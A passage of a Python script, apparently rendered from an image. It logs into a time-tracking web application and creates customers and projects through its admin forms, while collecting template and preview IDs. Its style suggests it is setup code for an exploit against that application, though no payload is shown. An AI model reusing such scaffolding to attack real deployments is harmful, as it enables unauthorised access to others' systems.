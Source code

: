                 project_id = project_id_match.group(1)
        
        return csrf_token, project_id, preview_id, template_ids, activity_customer_list
    
    except Exception as e:
        print(f"Error occurred: {e}")
        return None, None, None, None, None


def login(username,password,csrf,session):
    try:
        params = {"_username": username, "_password": password, "_csrf_token": csrf}
        login_response = session.post(f"{BASE_URL}/login_check", data=params, allow_redirects=True)
        if "I forgot my password" not in login_response.text:
            print(f"[+] Logged in: {username}")
            return session
        else:
            print("Wrong username,password", username)
            exit(1)
    except Exception as e:
        print(str(e))
        pass

def create_customer(token,name,session):
    try:

        data = {
            'customer_edit_form[name]': (None, name),
            'customer_edit_form[color]': (None, ''),
            'customer_edit_form[comment]': (None, 'xx'),
            'customer_edit_form[address]': (None, 'xx'),
            'customer_edit_form[company]': (None, ''),
            'customer_edit_form[number]': (None, '0002'),
            'customer_edit_form[vatId]': (None, ''),
            'customer_edit_form[country]': (None, 'DE'),
            'customer_edit_form[currency]': (None, 'EUR'),
            'customer_edit_form[timezone]': (None, 'UTC'),
            'customer_edit_form[contact]': (None, ''),
            'customer_edit_form[email]': (None, ''),
            'customer_edit_form[homepage]': (None, ''),
            'customer_edit_form[mobile]': (None, ''),
            'customer_edit_form[phone]': (None, ''),
            'customer_edit_form[fax]': (None, ''),
            'customer_edit_form[budget]': (None, '0.00'),
            'customer_edit_form[timeBudget]': (None, '0:00'),
            'customer_edit_form[budgetType]': (None, ''),
            'customer_edit_form[visible]': (None, '1'),
            'customer_edit_form[billable]': (None, '1'),
            'customer_edit_form[invoiceTemplate]': (None, ''),
            'customer_edit_form[invoiceText]': (None, ''),
            'customer_edit_form[_token]': (None, token),
        }


        response = session.post(f"{BASE_URL}/admin/customer/create", files=data)

    except Exception as e:
        print(str(e))


def create_project(token, name,project_id ,session):
    try:
        form_data = {
            'project_edit_form[name]': (None, name),
            'project_edit_form[color]': (None, ''),
            'project_edit_form[comment]': (None, ''),
            'project_edit_form[customer]': (None, project_id), 
            'project_edit_form[orderNumber]': (None, ''),